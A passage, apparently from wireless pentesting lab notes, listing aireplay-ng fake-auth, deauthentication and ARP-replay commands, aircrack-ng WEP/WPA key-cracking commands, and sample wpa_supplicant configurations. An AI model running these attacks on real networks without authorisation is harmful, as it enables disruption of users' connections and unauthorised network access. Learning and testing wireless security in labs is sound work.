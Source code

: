   ```
  # Fake auth [this is to make sure that you can talk with the AP prior to 
  # your attack]
  aireplay-ng -1 0 -a <BSSID> -h <Your_MAC> wlan0mon
  aireplay-ng -1 3600 -q 10 -a F0:9F:C2:AA:19:29 wlan0mon
  # 6000 - Reauthenticate every 6000 seconds. The long period also causes keep alive packets to be sent.
  # -o 1 - Send only one set of packets at a time. Default is multiple and this confuses some APs.
  # -q 10 - Send keep alive packets every 10 seconds.
  aireplay-ng -1 6000 -o 1 -q 10 -e Lab210 -a F0:9F:C2:AA:19:29 -h BA:49:A9:53:A1:8C wlan0mon
  
  #Deauth
  aireplay-ng -0 10 -a <BSSID> wlan0mon
  aireplay-ng -0 1 -a <BSSID> -c <Client_MAC> wlan0
  
  # ARP replay attack
  aireplay-ng -3 -b <BSSID> -h <Your_MAC> wlan0mon
  aireplay-ng --arpreplay -b <BSSID> -h <Client_MAC> wlan0
  ```

### 5. Aircrack-ng

* ```bash
  #Example of cracking for WEP
  aircrack-ng -z -b <BSSID> capture.cap
  aircrack-ng -z -n 128 -f 3 -l result.txt -b <MAC_Address> capture.cap
  
  #Example of cracking for WPA/WPA2
  # Aircrack with wordlist and John
  aircrack-ng -w <wordlist.txt> -b <BSSID> handshake.cap
  
  aircrack-ng -w /usr/share/john/password.lst -e wifu
  -b 34:08:04:09:3D:38 wpa-01.cap
  ```

### 6. WPA-Supplicant

* Example `wpa_supplicant.conf` file
  
  * ```bash
    #OPN Network
    network={
        ssid="<Your_SSID>"
        key_mgmt=NONE
        scan_ssid=1
    }
    ----------------------
    #WEP Network
    # WEP password should be in lowercase or uppercase hex, remove any double quotes and colons
    network={
      ssid="<Your_SSID>"
      key_mgmt=NONE
      wep_key0=hex_password_no_colons
      wep_tx_keyidx=0
    }
    
    ------------------------
    #WPA/WPA2/WPA3-PSK Network
    # Available proto version: WPA, WPA2, WPA3
    network={
        ssid="<Your_SSID>"
        psk="password"
        scan_ssid=1
        key_mgmt=WPA-PSK
  ```
